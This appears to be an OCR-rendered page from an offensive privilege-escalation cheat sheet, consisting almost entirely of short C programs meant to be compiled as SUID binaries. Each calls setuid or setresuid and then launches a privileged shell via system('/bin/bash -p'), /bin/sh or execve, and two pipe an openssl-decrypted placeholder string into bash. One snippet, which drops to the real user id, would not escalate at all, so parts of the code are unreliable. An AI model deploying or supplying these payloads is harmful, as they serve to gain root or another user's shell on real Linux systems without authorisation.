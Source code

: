 #### SUID Binary with Encrypted Password (AES-256-CBC)

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
    setuid(0);
    system("echo -n 'encrypted_password' | openssl aes-256-cbc -d -a -salt -pass pass:'password' | /bin/bash -p");
    return 0;
}
```

#### SUID Binary with Custom Encrypted Password (AES-256-CBC)

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
    setuid(0);
    system("echo -n 'custom_encrypted_password' | openssl aes-256-cbc -d -a -salt -pass pass:'custom_password' | /bin/bash -p");
    return 0;
}
```
```c
//gcc payload.c -o payload
int main(void){
setresuid(0, 0, 0); //Set as user suid user
system("/bin/sh");
return 0;
}
```

```c
//gcc payload.c -o payload
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>

int main(){
setuid(getuid());
system("/bin/bash");
return 0;
}
```

```c
// Privesc to user id: 1000
#define _GNU_SOURCE
#include <stdlib.h>
#include <unistd.h>

int main(void) {
char *const paramList[10] = {"/bin/bash", "-p", NULL};
const int id = 1000;
setresuid(id, id, id);
execve(paramList[0], paramList, NULL);
return 0;
}
```